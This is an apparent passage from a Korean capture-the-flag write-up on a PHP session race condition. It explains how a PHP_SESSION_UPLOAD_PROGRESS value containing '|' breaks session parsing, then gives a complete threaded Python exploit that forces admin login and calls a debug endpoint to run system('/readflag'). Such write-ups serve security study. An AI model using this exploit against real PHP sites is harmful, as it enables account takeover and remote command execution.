 ```c
}
```    
     
PHP Session Key 조건은 위와 같지만, POST 요청으로 전달된 PHP_SESSION_UPLOAD_PROGRESS 파라미터 값이 Session Key에 적용될 때는 완화된 조건이 적용되어 `, {} - ; |` 와 같은 특수 문자 사용이 가능해진다.         
      
유저가 PHP_SESSION_UPLOAD_PROGRESS 파라미터에 `test|`와 같이 입력을 주게 되면, `upload_progress_test||a:5:{~~` 이와 같이 세션 데이터가 설정되어 Session Parsing 과정에서 이를 Broken Session으로 판단하여 Session Abort를 호출하여 이전 세션 값을 전부 삭제하게 된다.     
          
즉, 위 내용을 기반으로 Race Condition을 발생시키면 admin 계정에 로그인이 가능해진다.         
           
## Exploit Code    
```python
import urllib.parse
import requests 
import urllib
from threading import Thread

# url = "http://52.231.139.134" 
url = "http://localhost:5555"

def go1(): 
    while True:
        r = requests.post(
            f"{url}/admin_login.php",
            data={
                "username": "admin",
                "password": "superSecretAdminPassword!@#12",
                "PHP_SESSION_UPLOAD_PROGRESS": "test|"
            },
            cookies={ 
                "username": "A" * 1000,
                "password": "A" * 1000,
                "PHP_SESSION_UPLOAD_PROGRESS": "A" * 1000,
                "PHPSESSID": "orange"
            },
            files={"file": ("simple.txt", b"ccl" * 40960)}
        )
        if not "Incorrect Password" in r.text:
            if not "Smart admins never enter the wrong password :p" in r.text:
                if "99999" in r.text: 
                    print(end='admin')

def go2():
    while True: 
        r = requests.get(
            f"{url}/?mode=debug_mode&debug[]=system&debug[]=%2Freadflag",
            cookies={
                "PHPSESSID": "orange",
                "mode": "A" * 1000,
                "debug": "A" * 1000,
            }
        )
        if "99999" in r.text: 
            print(r.text) 
            exit(0)

for _ in range(10):
    thr1 = Thread(target=go1) 
    thr2 = Thread(target=go2) 

    thr1.start()
    thr2.start() 
```     